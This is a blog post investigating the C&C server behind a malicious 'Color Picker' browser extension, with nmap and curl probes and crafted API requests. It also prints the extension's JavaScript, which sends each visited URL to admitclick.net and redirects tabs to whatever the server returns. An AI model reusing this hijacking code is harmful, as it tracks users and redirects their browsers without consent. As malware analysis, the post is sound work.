 ```yaml
---
date: "2025-07-08T00:00:00Z"
type: "post"
tags: ["Google Chrome", "Microsoft Edge", "browser extension", "malware"]
title: "\"Color Picker\" Browser Extension Becomes Malware"
---
```


Recently, [several][article1] [articles][article2] have been published about
several browser extensions that have started shipping malware. Many of these
extensions were previously benign and were "trusted" and "verified" by the
browser vendors.

[article1]:https://www.theregister.com/2025/07/08/browser_hijacking_campaign/
[article2]:https://blog.koi.security/google-and-microsoft-trusted-them-2-3-million-users-installed-them-they-were-malware-fb4ed4f40ff5

This article focuses more on one of the C&C domains used by the extension:
`hxxp(s)://admitclick.net`. 

## Low-Hanging Fruit

I swear I've seen this domain before, or maybe I'm thinking of
`doubleclick.net`, in any case, domains that have "click" in them set of my
alarm bells.

This domain's DNS is handled by Cloudflare:

```
$ dig NS admitclick.net +short
kevin.ns.cloudflare.com.
sky.ns.cloudflare.com.
```

A quick `nmap` scan shows that there might be some fun to the had with FTP...

```
$ nmap admitclick.net
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-08 16:04 -0500
Nmap scan report for admitclick.net (104.21.48.241)
Host is up (0.017s latency).
Other addresses for admitclick.net (not scanned): 172.67.157.3 2606:4700:3033::ac43:9d03 2606:4700:3035::6815:30f1
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
```

Though I'm not sure if there's actually an FTP server at the other end on port
21.

Browsing, or otherwise `GET`ing the domain, returns a 404 Not Found, with an
*extremely old* Nginx server version, 0.5.358, which looks like it was released
in January of 2008.

```
$ curl -i http://admitclick.net
HTTP/1.1 404 Not Found
Date: Tue, 08 Jul 2025 21:49:21 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
[cloudflare headers truncated]

<html><head><title>404 Not Found</title></head><body bgcolor="white"><center><h1>404 Not Found</h1></center><hr><center>nginx/0.5.35</center></body></html>
```

Likewise for HTTPS:

```
$ curl -i https://admitclick.net
HTTP/2 404
date: Tue, 08 Jul 2025 21:52:52 GMT
content-type: text/html
server: cloudflare
[cloudflare headers truncated]

<html><head><title>404 Not Found</title></head><body bgcolor="white"><center><h1>404 Not Found</h1></center><hr><center>nginx/0.5.35</center></body></html>
```

In the browser extension source, it appears that this server expects a `POST` to
the `/api` endpoint. A `GET /api` returns a redirect to google.com:

```
$ curl -i https://admitclick.net/api
HTTP/2 302
date: Tue, 08 Jul 2025 21:54:41 GMT
content-type: text/html; charset=utf-8
location: https://www.google.com/
server: cloudflare
[cloudflare headers truncated]

<a href="https://www.google.com/">Found</a>.
```

I found two additional endpoints on this domain, `/click` and `/redir`.

<details>
<summary>`GET /click` puts you in a redirect loop:</summary>

```
$ curl -iL --max-redirs 10 https://admitclick.net/click
HTTP/2 301
date: Tue, 08 Jul 2025 21:58:04 GMT
content-type: text/html; charset=utf-8
server: cloudflare
location: /newapi/click/
referrer-policy: no-referrer
[cloudflare headers truncated]

HTTP/2 301
date: Tue, 08 Jul 2025 21:58:04 GMT
content-type: text/html
location: http://admitclick.net/newapi/click
server: cloudflare
referrer-policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: /newapi/click/
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: http://admitclick.net/newapi/click
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: /newapi/click/
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: http://admitclick.net/newapi/click
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: /newapi/click/
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: http://admitclick.net/newapi/click
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:05 GMT
Content-Type: text/html; charset=utf-7
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: /newapi/click/
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:06 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: http://admitclick.net/newapi/click
Referrer-Policy: no-referrer
[cloudflare headers truncated]

HTTP/1.1 301 Moved Permanently
Date: Tue, 08 Jul 2025 21:58:06 GMT
Content-Type: text/html; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
Server: cloudflare
Location: /newapi/click/
Referrer-Policy: no-referrer
[cloudflare headers truncated]

curl: (47) Maximum (10) redirects followed
```
</details>

And `GET /redir` causes a similar redirect loop, this time to `/redir` instead
of `/newapi/...`. I find it interesting it's redirecting *away from* HTTPS.

I was hoping that a successful `POST` would return something. Something other
than an HTTP 204, that is.

Crafting a request using the extension's source code works, but it doesn't
return anything useful for this quick investigation:

```
$ curl -i -A "$ua" -X POST "https://admitclick.net/api?key=565ebded7e63cdfa5fcbe5734bdb4281a85d6f21&
uuid=fb31bd16-fa51-4a91-a637-c28b6fbb48db&allowempty=1&out=https://yahoo.com&format=txt&r=0.7508094777082555"
HTTP/2 204
date: Tue, 08 Jul 2025 22:23:04 GMT
server: cloudflare
access-control-allow-origin: *
referrer-policy: no-referrer
[cloudflare headers truncated]
```

I just used PowerShell's `New-Guid` to create a new GUID, or UUID. 

Playing around with some of the URL query parameters changes the response from
the server.

For example, changing `allowempty=1` to `allowempty=0` (assuming 1 for true and
0 for false) returns the value of the `out` query parameter:

```
$ curl -i -A "$ua" -X POST "https://admitclick.net/api?key=565ebded7e63cdfa5fcbe5734bdb4281a85d6f21&uuid=fb31bd16-fa51-4a91-a637-c28b6fbb48db&allowempty=0&out=https://yahoo.comm&format=txt&r=0.7508094777082555"
HTTP/2 200
date: Tue, 08 Jul 2025 22:27:49 GMT
content-type: text/plain; charset=utf-8
content-length: 18
server: cloudflare
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
access-control-allow-origin: *
referrer-policy: no-referrer
cf-cache-status: DYNAMIC
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=lzim%2B%2B8fBll5i25ifNqP5hSCaf5NdxFKmu8ftGsvY0vlVFuIQ9gKVeMWqSb7uNAQWyxKPxs6x8JIG8QYiEsyKGGt%2F%2FY14a6I3ZSktg%3D%3D"}]}
cf-ray: 95c302dbde1aa1f5-MSP
alt-svc: h3=":443"; ma=86400

https://yahoo.comm
```

Note the two `m`s, it doesn't appear that the server is doing any validation of
this parameter.

Likewise, changing the `format` query parameter changes the format of the
response:

```
$ curl -i -A "$ua" -X POST "https://admitclick.net/api?key=565ebded7e63cdfa5fcbe5734bdb4281a85d6f21&uuid=fb31bd16-fa51-4a91-a637-c28b6fbb48db&allowempty=0&out=https://yahoo.comm&format=json&r=0.7508094777082555"
HTTP/2 200
date: Tue, 08 Jul 2025 22:29:53 GMT
content-type: application/json
content-length: 26
server: cloudflare
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
access-control-allow-origin: *
referrer-policy: no-referrer
cf-cache-status: DYNAMIC
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=mLzgjk5Ne3cPZDCgU2fNspy%2BM4jJW7i9Y0w59jJjBVK9CxLCNSy2SFGERrmE4SlH3ALmtpiUxF4%2Fr0pwPFu9GyfyFvH5B%2F1pd4XuBg%3D%3D"}]}
cf-ray: 95c305de7c59ad02-MSP
alt-svc: h3=":443"; ma=86400

{ ["https://yahoo.comm"] }
```

I haven't found any other formats besides `txt` or `json`.

## So they're collecting URLs?

That's what it looks like, however if we go back to the source code (edited for
readability):

```javascript
chrome.tabs.onUpdated.addListener(function() {
    var t = o(r().mark((function t(e, o, i) {
        var c, s;
        return r().wrap((function(t) {
            for (;;) switch (t.prev = t.next) {
                case 0:
                if (!o.url) {
                    t.next = 8;
                    break;
                }
                return c = {
                    method: "POST",
                    redirect: "follow"
                }, t.next = 5, fetch("https://admitclick.net/api?key=565ebded7e63cdfa5fcbe5734bdb4281a85d6f21&uuid=" 
                            + a + "&allowempty=1&out=" 
                            + encodeURIComponent(o.url) + "&format=txt&r=" 
                            + Math.random(), c).then((function(t) {
                    return t.text();
                })).then((function(t) {
                    return !(!t || !t.match(/^http/i)) && t;
                })).catch((function(t) {
                    return !1;
                }));

                case 5:
                (s = t.sent) && s.match(/^http/i) && (n.keepTab ? chrome.tabs.update(e, {
                    url: s
                }, (function() {})) : chrome.tabs.create({
                    active: i.active,
                    index: i.index,
                    url: s,
                    windowId: i.windowId,
                    pinned: i.pinned
                }, (function() {
                    chrome.tabs.remove(e, (function() {}));
                })));

                case 8:
                case "end":
                return t.stop();
            }
        }), t);
    })));
    return function(e, r, n) {
        return t.apply(this, arguments);
    };
}());
```

We can see on line 14, the "next step" would be to go to `case 5:`, line 25,
which looks like it would open up the page returned from the C&C server. My
first thought is they're using this to look for login pages to steal
credentials. I wonder what happens if we went to some well-known login pages,
like `login.microsoftonline.com`...

Well I tried with `login.microsoftonline.com` and `accounts.google.com` with
their full signin URLs, and didn't get anything strange returned from the C&C
server.

Perhaps there's more clues in the extension source that would point to what
they're trying to do. In any case you should uninstall these extensions NOW. A
list can be found in either of the two articles linked at the beginning of this
one.
